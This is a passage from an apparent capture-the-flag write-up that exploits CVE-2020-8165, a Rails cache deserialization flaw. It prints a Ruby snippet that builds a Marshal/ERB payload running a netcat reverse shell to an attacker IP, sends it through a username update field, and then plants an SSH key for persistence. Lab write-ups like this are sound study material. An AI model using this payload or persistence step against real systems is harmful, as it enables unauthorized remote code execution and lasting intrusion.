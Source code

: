 So, if I can introduce a malicious string into the cache, I can achieve remote code execution!

### Updating Username

Long story short, I signed up for an account and in the user's profile lies the username update feature.

{% include image.html image_alt="821076e4.png" image_src="/3232fd0d-e875-4c50-81ad-6ebae8e5f843/821076e4.png" %}

## Foothold

I found this GitHub [repository](https://github.com/masahiro331/CVE-2020-8165) that actually goes through how to exploit CVE-2020-8165 by googling for "**CVE-2020-8165 github**".

```
$ bundle exec rails console

irb(main):> code = '`nc 10.10.14.62 1234 -e /bin/bash`'
irb(main):> erb = ERB.allocate
irb(main):> erb.instance_variable_set :@src, code
irb(main):> erb.instance_variable_set :@filename, "1"
irb(main):> erb.instance_variable_set :@lineno, 1
irb(main):> payload = Marshal.dump(ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new erb, :result)
irb(main):> puts URI.encode_www_form(payload: payload)
```

I'll use the steps above to generate a url-encoded payload and submit to the user update via Burp Repeater.

{% include image.html image_alt="651bb90f.png" image_src="/3232fd0d-e875-4c50-81ad-6ebae8e5f843/651bb90f.png" %}

_Request_

{% include image.html image_alt="2f50be19.png" image_src="/3232fd0d-e875-4c50-81ad-6ebae8e5f843/2f50be19.png" %}

_Response_

{% include image.html image_alt="3fb8359c.png" image_src="/3232fd0d-e875-4c50-81ad-6ebae8e5f843/3fb8359c.png" %}

You may get a **500 Internal Server Error** but rest assured the payload is marshalled into Redis. All you need to do is to refresh your profile page and the reverse shell appears on your `netcat` listener.

{% include image.html image_alt="8d69cf72.png" image_src="/3232fd0d-e875-4c50-81ad-6ebae8e5f843/8d69cf72.png" %}

The file `user.txt` is at `bill`'s home directory.

{% include image.html image_alt="5ac8f5b9.png" image_src="/3232fd0d-e875-4c50-81ad-6ebae8e5f843/5ac8f5b9.png" %}

To maintain persistence, let's plant a SSH public key we control into `/home/bill/.ssh/authorized_keys`.
